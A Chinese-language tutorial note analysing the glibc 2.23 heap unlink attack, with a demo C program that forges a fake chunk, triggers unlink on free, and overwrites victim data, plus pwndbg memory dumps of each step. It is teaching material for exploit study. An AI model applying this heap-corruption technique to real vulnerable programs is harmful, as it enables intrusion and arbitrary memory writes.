

## Unlink

测试系统：Ubuntu 16.04 

libc-2.23.so

### 演示程序

演示程序源代码：

来源：<https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html>

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
  printf("%p\n", &chunk1);
  printf("%p\n", chunk1);
  printf("%p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2); 
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("%p\n", chunk1);
  printf("%x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

编译

```shell
$ gcc -o vulnerable -g unlink_exploit.c
```

-g用于添加更多的调试信息

### 分析

使用gdb调试，装载了pwndbg插件


#### 0x1 申请两个smallbin 

首先程序申请了两个不是fastbin的堆块chunk1和chunk2，因为是64位系统，申请大小是0x80

```c
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
```



#### 0x2 为了绕过安全检查，构造fake chunk

为了后续的free(chunk2)的unlink，在chunk1处构造fake chunk

为了绕过UNLINK宏的安全检查，设定

prev->fd->bk == prev

prev->bk->fd == prev

其中prev为fake chunk头部指针


首先，&chunk1，即fake chunk的头部地址，为0x7fffffffddd0

然后为了让prev->fd->bk == prev，作者让fake chunk的fd指向某个chunk头部，这个chunk的bk为为prev，

```c
  fake_chunk     = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P
```

```asm
pwndbg> x/40xg 0x555555756000
0x555555756000:	0x0000000000000000	0x0000000000000091   << chunk1 header
0x555555756010:	0x0000000000000000	0x0000000000000000   << fake chunk header
0x555555756020:	0x00007fffffffddb8	0x00007fffffffddc0   << fake's fd, bk
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000000	0x0000000000000091   << chunk2 header
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
0x5555557560f0:	0x0000000000000000	0x0000000000000000
0x555555756100:	0x0000000000000000	0x0000000000000000
0x555555756110:	0x0000000000000000	0x0000000000000000
0x555555756120:	0x0000000000000000	0x0000000000000411   << top chunk
0x555555756130:	0x3535353535357830	0x000a306130363537
```

#### 0x3 设定即将被释放的chunk的前一个chunk为释放状态

修改chunk2的头部，让libc以为chunk1已被释放了

设置prev_inuse = 0, 以及prev_size = 前一个chunk的大小

```c
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2); 
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit
```

```asm
pwndbg> x/40xg 0x555555756000
0x555555756000:	0x0000000000000000	0x0000000000000091
0x555555756010:	0x0000000000000000	0x0000000000000000
0x555555756020:	0x00007fffffffddb8	0x00007fffffffddc0
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000080	0x0000000000000090   << chunk2 header
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
0x5555557560f0:	0x0000000000000000	0x0000000000000000
0x555555756100:	0x0000000000000000	0x0000000000000000
0x555555756110:	0x0000000000000000	0x0000000000000000
0x555555756120:	0x0000000000000000	0x0000000000000411
0x555555756130:	0x3535353535357830	0x000a306130363537
```

#### 0x4 释放chunk2，触发unlink

因为prev_inuse位为0， 则系统认为前面的chunk1是释放状态，会触发unlink，将当前chunk与前面释放的chunk合并

**unlink的操作是：**

根据prev_size定向到前面一个已释放的chunk

将当前chunk2与前面释放的chunk（fake chunk）的大小相加，放置到前面释放的chunk的size位置上

将合并后的chunk的头部指针（fake chunk）放入unsorted bin

```c
free(chunk2);
```

```asm
pwndbg> x/40xg 0x555555756000
0x555555756000:	0x0000000000000000	0x0000000000000091   << chunk1
0x555555756010:	0x0000000000000000	0x0000000000000111   << fake chunk
0x555555756020:	0x00007ffff7dd1b78	0x00007ffff7dd1b78   << addr of main_arena+0x88
0x555555756030:	0x0000000000000000	0x0000000000000000
0x555555756040:	0x0000000000000000	0x0000000000000000
0x555555756050:	0x0000000000000000	0x0000000000000000
0x555555756060:	0x0000000000000000	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000080	0x0000000000000090   << freed chunk2
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
0x5555557560f0:	0x0000000000000000	0x0000000000000000
0x555555756100:	0x0000000000000000	0x0000000000000000
0x555555756110:	0x0000000000000000	0x0000000000000000
0x555555756120:	0x0000000000000110	0x0000000000000410   << top chunk
0x555555756130:	0x3862646466666666	0x000a38626464660a
```

